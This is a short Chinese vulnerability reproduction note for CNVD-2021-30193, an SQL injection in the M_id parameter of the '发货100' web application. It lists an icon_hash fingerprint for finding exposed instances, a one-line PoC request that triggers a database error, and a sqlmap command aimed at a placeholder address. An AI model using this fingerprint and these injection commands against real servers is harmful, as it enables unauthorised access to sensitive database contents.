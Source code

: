 # 发货100 M_id SQL注入漏洞 CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>发货100</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1420424513"</a-checkbox></br>

## 漏洞复现

主页面如下



![img](/assets/PeiQi-Wiki/img/image-20210602204745265.png)



使用POC



```plain
/?M_id=1%27&type=product
```



![img](/assets/PeiQi-Wiki/img/image-20210602204842198.png)



数据库出现报错, 使用Sqlmap注入



```plain
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```



![img](/assets/PeiQi-Wiki/img/image-20210602233608318.png)